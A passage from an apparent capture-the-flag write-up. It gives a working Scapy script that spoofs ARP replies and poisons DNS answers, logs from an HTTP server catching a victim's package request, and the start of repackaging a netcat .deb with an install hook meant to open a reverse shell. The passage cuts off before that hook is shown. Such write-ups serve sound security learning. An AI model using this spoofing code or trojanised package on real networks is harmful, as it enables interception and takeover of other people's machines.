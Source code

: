 ## 9.3. Solution
For the ARP spoofing and DNS poisoning part I merged the suggested scripts into one and ensure it would manage all incoming ARP & DNS packets so to be consistent over time:
```python
from scapy.all import *
import netifaces as ni
import uuid

ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])

def handle_packets(packet):
   if ARP in packet and packet[ARP].op == 1:
      ether_resp = Ether(dst=packet[Ether].src, type=0x806, src=macaddr)
      arp_response = ARP(pdst=packet[ARP].pdst)
      arp_response.op = 2
      arp_response.plen = 4
      arp_response.hwlen = 6
      arp_response.ptype = 0x0800
      arp_response.hwtype = 1
      arp_response.hwsrc = macaddr
      arp_response.psrc = packet[ARP].pdst
      arp_response.hwdst = packet[ARP].hwsrc
      arp_response.pdst = packet[ARP].psrc
      response = ether_resp/arp_response
      sendp(response, iface="eth0")
   elif DNS in packet and packet[DNS].opcode == 0:
      ether_resp = Ether(dst=packet[Ether].src, type="IPv4", src=macaddr)
      ip_resp = IP(proto="udp", src=packet[IP].dst, dst=packet[IP].src)
      udp_resp = UDP(dport=packet[UDP].sport, sport=packet[UDP].dport)
      dns_response=packet[DNS]
      dns_response.qr=1
      dns_response.ancount=1
      dns_response.an=DNSRR(rrname=packet[DNS].qd.qname, type='A', rclass='IN', rdata=ipaddr)
      response = ether_resp/ip_resp/udp_resp/dns_response
      sendp(response, iface="eth0")
      
while 1:
   sniff(prn=handle_packets, store=0)
```
I kept the script running with the below shell command:
```bash
guest@3944f7bc1eff:~/debs/work$ python3 sol.py>/dev/null &
```
I then ran the HTTP server with `python -m http.server 80` but I was getting permission denied errors sometimes, when it worked I could noticed incoming GET requests for `/pub/jfrost/backdoor/suriv_amd64.deb`:
```bash
guest@3944f7bc1eff:~/debs/work$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.6.6.35 - - [29/Dec/2020 00:20:08] code 404, message File not found
10.6.6.35 - - [29/Dec/2020 00:20:08] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -
```
Knowing the URL of the file being requested I repackaged one of the deb file in the debs folder making it establish a reverse shell to the machine I was using:
```bash
guest@3944f7bc1eff:~/debs$ dpkg -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb netcat
guest@3944f7bc1eff:~/debs/netcat/DEBIAN$ cat control 
Package:suriv
Version:1.0
Architecture:amd64
Maintainer:anche-no
Description:ma-anche-no
guest@3944f7bc1eff:~/debs/netcat/DEBIAN$ cat postinst 
```